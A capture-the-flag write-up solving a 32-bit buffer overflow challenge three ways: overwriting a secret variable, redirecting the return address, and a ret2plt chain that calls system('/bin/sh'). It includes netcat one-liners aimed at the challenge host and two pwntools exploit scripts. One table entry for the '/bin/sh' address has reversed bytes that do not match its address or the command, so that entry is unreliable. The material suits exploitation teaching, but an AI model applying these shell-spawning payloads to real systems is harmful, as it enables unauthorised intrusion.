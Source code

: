 # Problem description
Can you get the flag?

# Solutions
## 1st attack: Overwrite 'secret' parameter
`(python -c 'print "A" * 48 + "\xbe\xba\xfe\xca"'; cat -) | nc kfoens.com 8001`

## 2nd attack: Return to just after the if(secret) check
| Thing                             | Addres     | Reversed in python |
| --------------------------------- |:-----------|:-------------------|
| "offset command" memory location: | 0x0804850e | "\x0e\x85\x04\x08" |

`(python -c 'print "A" * 44 + "\x0e\x85\x04\x08"'; cat -) | nc kfoens.com 8001`

or if we want the welcome greeting: 

`(python -c 'print "A" * 44 + "\xed\x84\x04\x08"'; cat -) | nc kfoens.com 8001`

## 3rd attack: ret2plt (kinda like ret2libc)
We find the relevant addresses:
| Thing                          | Addres     | Reversed in python |
| ------------------------------ |:-----------|:-------------------|
| system() memory location (plt) | 0x08048380 | "\x80\x83\x04\x08" |
| "/bin/sh" memory location      | 0x08048647 | "\x47\x98\x04\x08" |

`(python -c 'print "A" * 44 + "\x80\x83\x04\x08" + "SEXY" + "\x47\x86\x04\x08"'; cat -) | nc kfoens.com 8001`

### Can also use pwntools
#### Version 1
```pythong
#!/usr/bin/env python2

from pwn import *

context(arch = 'i386', os = 'linux')

RET_OFFSET = 44
PROGRAM = './buffer_overflow.bin'

e = ELF(PROGRAM)
r = process(PROGRAM)

print r.readline()
r.sendline(flat(
    'A' * RET_OFFSET,          #Junk till saved return address
    e.plt['system'],           #Overwrite saved return address
    0xc0debabe,                #Return address from 'system'
    next(e.search('/bin/sh'))  #Argument for 'system'
))
print r.readline()
r.interactive()
```
#### Version 2
```python
#!/usr/bin/env python2

from pwn import *

context(arch = 'i386', os = 'linux')

RET_OFFSET = 44
PROGRAM = './buffer_overflow.bin'

e = ELF(PROGRAM)

rop = ROP(e)
rop.system(next(e.search('/bin/sh')))

r = process(PROGRAM)
print r.readline()
r.sendline(flat(
    'A' * RET_OFFSET,
    rop.chain()
))
print r.readline()
r.interactive()
```